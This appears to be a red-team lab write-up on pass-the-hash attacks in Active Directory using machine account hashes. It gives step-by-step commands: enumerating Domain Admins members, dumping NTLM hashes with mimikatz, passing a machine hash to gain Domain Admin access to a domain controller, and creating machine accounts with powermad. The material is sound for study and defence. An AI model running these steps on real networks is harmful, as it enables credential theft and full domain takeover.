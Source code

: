 ```yaml
---
layout: post
title: "pass the hash with machine accounts"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-with-machine-accounts/
---
```


---
layout: post
title: "pass the hash with machine accounts"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-with-machine-accounts/
---

# Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of (ideally administrators/domain administrators).

This labs is based on an assumption that you have gained local administrator privileges on a workstation (machine), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-03-19.png>)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-22-59.png>)

or administrators group (not applicable to our lab, but showing as a sidenote):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-24-07.png>)

In AD, the highlighted part can be seen here:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-36-17.png>)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-29-17.png>)

Let's check that our current compromised user `ws01\mantvydas` (local admin on ws01) cannot access the domain controller DC01 just yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-47-10.png>)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-52-35.png>)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](<../../.gitbook/assets/Peek 2018-12-29 15-49.gif>)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](<../../.gitbook/assets/image (162).png>)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](<../../.gitbook/assets/image (164).png>)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](<../../.gitbook/assets/image (163).png>)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}
@spotheplanet
